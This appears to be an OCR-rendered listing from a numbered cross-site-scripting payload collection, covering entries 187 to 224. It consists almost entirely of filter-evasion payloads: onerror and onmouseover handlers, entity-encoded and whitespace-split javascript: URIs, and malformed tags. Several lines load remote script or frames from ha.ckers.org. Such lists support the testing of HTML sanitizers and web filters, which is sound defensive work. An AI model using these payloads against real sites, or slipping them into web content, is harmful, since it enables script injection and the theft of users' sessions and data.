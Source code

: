 <img src=x\x09onerror="javascript:alert(187)">
<img src=x\x10onerror="javascript:alert(188)">
<img src=x\x11onerror="javascript:alert(189)">
<img src=x\x12onerror="javascript:alert(190)">
<img src=x\x13onerror="javascript:alert(191)">
<img[a][b][c]src[d]=x[e]onerror=[f]"alert(192)">
<img src=x onerror=\x09"javascript:alert(193)">
<img src=x onerror=\x10"javascript:alert(194)">
<img src=x onerror=\x11"javascript:alert(195)">
<img src=x onerror=\x12"javascript:alert(196)">
<img src=x onerror=\x32"javascript:alert(197)">
<img src=x onerror=\x00"javascript:alert(198)">
<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(199)>XXX</a>
<img src="x` `<script>javascript:alert(200)</script>"` `>
<img src onerror /" '"= alt=javascript:alert(201)//">
<title onpropertychange=javascript:alert(202)></title><title title=>
<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(203)></a>">


<script src="/\%(jscript)s"></script>
<script src="\\%(jscript)s"></script>
<IMG """><SCRIPT>alert("206")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(50,48,55))>
<IMG SRC=# onmouseover="alert('208')">
<IMG SRC= onmouseover="alert('209')">
<IMG onmouseover="alert('210')">
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#50;&#49;&#49;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000050&#0000049&#0000050&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x32&#x31&#x33&#x27&#x29>
<IMG SRC="jav   ascript:alert('214');">
<IMG SRC="jav&#x09;ascript:alert('215');">
<IMG SRC="jav&#x0A;ascript:alert('216');">
<IMG SRC="jav&#x0D;ascript:alert('217');">
perl -e 'print "<IMG SRC=java\0script:alert(\"218\")>";' > out
<IMG SRC=" &#14;  javascript:alert('219');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("220")>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("221");//<</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
<SCRIPT SRC=//ha.ckers.org/.j>
<IMG SRC="javascript:alert('222')"
<iframe src=http://ha.ckers.org/scriptlet.html <
\";alert('223');//
<u oncopy=alert()> Copy me</u>
<i onwheel=alert(224)> Scroll over me </i>